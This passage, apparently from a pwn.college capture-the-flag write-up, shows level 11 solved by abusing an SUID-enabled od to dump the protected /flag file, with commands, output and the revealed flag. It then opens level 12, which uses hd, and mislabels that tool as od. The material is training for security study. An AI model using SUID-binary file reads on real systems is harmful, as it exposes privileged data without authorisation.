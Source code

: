 The `od` utility gives an octal dump of the data provided through STDIN.

```
hacker@program-misuse~level11:/$ /challenge/babysuid_level11 
Welcome to /challenge/babysuid_level11!

This challenge is part of a series of programs that
require you to understand their output to derive the flag from it.

I just set the SUID bit on /usr/bin/od.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level11) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/od!
hacker@program-misuse~level11:/$ od /flag 
0000000 073560 027156 067543 066154 063545 075545 041163 050514
0000020 053560 073501 052067 042107 033546 064131 053063 065125
0000040 066527 067521 060552 027160 030460 030515 042105 032114
0000060 052111 030115 075105 076527 000012
0000071
```

If we provide the `-c` option, `od` will dump the ASCII representation.

```
hacker@program-misuse~level11:/$ od -c /flag 
0000000   p   w   n   .   c   o   l   l   e   g   e   {   s   B   L   Q
0000020   p   W   A   w   7   T   G   D   f   7   Y   h   3   V   U   j
0000040   W   m   Q   o   j   a   p   .   0   1   M   1   E   D   L   4
0000060   I   T   M   0   E   z   W   }  \n
0000071
```

&nbsp;

## level 12

> Requires you to understand their output to derive the flag from it!

```
hacker@program-misuse~level12:/$ /challenge/babysuid_level12 
Welcome to /challenge/babysuid_level12!

This challenge is part of a series of programs that
require you to understand their output to derive the flag from it.

I just set the SUID bit on /usr/bin/hd.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level12) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/hd!
```

The `od` utility gives an hexadecimal dump of the data provided through STDIN.
